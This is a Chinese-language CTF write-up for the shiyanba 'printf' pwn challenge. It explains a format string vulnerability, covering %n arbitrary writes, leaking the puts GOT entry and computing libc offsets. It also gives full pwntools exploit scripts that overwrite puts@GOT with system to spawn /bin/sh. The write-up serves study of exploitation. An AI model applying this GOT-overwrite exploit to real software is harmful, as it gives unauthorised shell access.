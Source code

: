 # shiyanba--pwn--printf

ida打开，32位的题

```
setbuf(stdout, 0);
ask_username(&s1);
ask_password(&s1);
```

```c++
char *__cdecl ask_username(char *dest)
{
  char src[40]; // [esp+14h] [ebp-34h]
  int i; // [esp+3Ch] [ebp-Ch]

  puts("Connected to ftp.hacker.server");
  puts("220 Serv-U FTP Server v6.4 for WinSock ready...");
  printf("Name (ftp.hacker.server:Rainism):");
  __isoc99_scanf("%40s", src);
  for ( i = 0; i <= 39 && src[i]; ++i )
    ++src[i];
  return strcpy(dest, src);
}

int __cdecl ask_password(char *s1)
{
  if ( strcmp(s1, "sysbdmin") )
  {
    puts("who you are?");
    exit(1);
  }
  return puts("welcome!");
}
```

有层验证用户名的代码，用户名是 sysbdmin ，我们输入的字符会自动加一，那我们先输入减一的进去，即rxraclhm

进入主程序，我们可以输入get,put,dir进行不同的操作

- put：生成一个文件，自定义文件名跟内容
- get: 根据输入的文件名，打印对应内容
- dir: 可以打印所有文件名，最后输入的文件名在最前面，而且两个文件名“无缝衔接”

get_file函数里面可以看到存在格式化字符串漏洞

```c++
int get_file()
{
  char dest; // [esp+1Ch] [ebp-FCh]
  char s1; // [esp+E4h] [ebp-34h]
  char *i; // [esp+10Ch] [ebp-Ch]

  printf("enter the file name you want to get:");
  __isoc99_scanf("%40s", &s1);
  if ( !strncmp(&s1, "flag", 4u) )
    puts("too young, too simple");
  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
  {
    if ( !strcmp(i, &s1) )
    {
      strcpy(&dest, i + 40);
      return printf(&dest);   //漏洞   下断点位置
    }
  }
  return printf(&dest);
```

### 格式化字符串：

当我们输入printf可识别的格式化字符串时，printf会将其作为格式化字符串进行解析并输出。原理很简单，形如printf(“%s”,“Hello world”)的使用形式会把第一个参数%s作为格式化字符串参数进行解析，在这里由于我们直接用printf输出一个变量，当变量也正好是格式化字符串时，自然就会被printf解析。

输出的内容正好是esp-4开始往下的一连串数据。所以理论上我们可以通过叠加%x来获取有限范围内的栈数据。

%d - 十进制 - 输出十进制整数
%s - 字符串 - 从内存中读取字符串
%x - 十六进制 - 输出十六进制数
%c - 字符 - 输出字符
%p - 指针 - 指针地址
%n - 到目前为止所写的字符数

0x01格式化字符串可以使用一种特殊的表示形式来指定处理第n个参数，如输出第五个参数可以写为%4$s，第六个为%5$s，需要输出第n个参数就是%(n-1)$[格式化控制符]。

0×02 使用格式化字符串漏洞任意写虽然我们可以利用格式化字符串漏洞达到任意地址读，但是我们并不能直接通过读取来利用漏洞getshell，我们需要任意地址写。因此我们在本节要介绍格式化字符串的另一个特性——使用printf进行写入。

printf有一个特殊的格式化控制符%n，和其他控制输出格式和内容的格式化字符不同的是，这个格式化字符会将已输出的字符数写入到对应参数的内存中。

### 实现任意地址读

```
from pwn import *
context.log_level = 'debug'

cn = process('str')
cn.sendline(p32(0x08048000)+"%6$s")
#cn.sendline("%7$s"+p32(0x08048000))
print cn.recv()
```

### 实现任意地址写

```
#include <stdio.h>

int main(void)
{
    int c = 0; 
    printf("%.100d%n", c,&c);
    printf("\nthe value of c: %d\n", c);
    return 0;
}

```



## 利用思路

通过格式化字符串改写GOT表的内容，将system()地址覆盖到已有的puts()函数地址，然后调用puts()函数的时候就会转到system()，再设计参数为”/bin/sh”就可以实现执行system(“/bin/sh”)进而拿到shell。

本题的关键在于将got.plt表中的puts替换为system的地址

### 第一步 确定system的地址

gdb运行 下断点在printf

可见 格式化字符串偏移为7

```

```

我们先要泄露出puts_got的内容，与我们的libc文件比较得出offset

system的实际地址 = system_libc + offset

我们构造泄露puts_got的payload

```python
puts_got = elf.got['puts']
payload='%8$s' + p32(puts_got)     
```



### 第二步 将system地址放在puts_got地址处

0x0804a028 :   system_addr的低四位
0x0804a02a :   system_addr的高四位

```python
#构造的payload

payload1 = p32(puts_got_addr) + '%%%dc' % ((system_addr & 0xffff)-4) + '%7$hn'
payload2 = p32(puts_got_addr+2) + '%%%dc' % ((system_addr>>16 & 0xffff)-4) + '%7$hn'

#payload1 = "x28xa0x04x08%396c%7$hn"
#payload2 = "x2axa0x04x08%46942c%7$hn"

```

解释’%%%dc’ % ((system_addr & 0xffff)-4):

这里以system_addr=0xb7620190 为例

这个是将system_addr的低地址4bytes转化为数字，从而将0x0804a028的位置写为0x0190(396)；将0x0804a02a的位置写为0xb762(46942)。



exp：

```python
from pwn import *

context.log_level='debug'
p=process('pwn3')
elf=ELF('pwn3')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
puts_got=elf.got['puts']

p.recvuntil(':')
p.sendline('rxraclhm')

p.recvuntil('>')
p.sendline('put')
p.recv()
p.sendline('/sh')
p.recv()

payload='%8$s' + p32(puts_got)
p.sendline(payload)
gdb.attach(p)
p.recvuntil('>')
p.sendline('get')
p.recv()
p.sendline('/sh')
t=p.recv()[0:4]
puts_addr=u32(t)
print 'puts==>'+hex(puts_addr)

system=libc.symbols['system']-libc.symbols['puts']+puts_addr
print 'system==>'+hex(system)

p.sendline('put')
p.recv()
p.sendline('/bin')
p.recv()
payload=fmtstr_payload(7,{puts_got:system})
p.sendline(payload)
p.recv()
p.sendline('get')
p.recv()
p.sendline('/bin')
p.recv()
p.sendline('dir')
p.interactive()
```

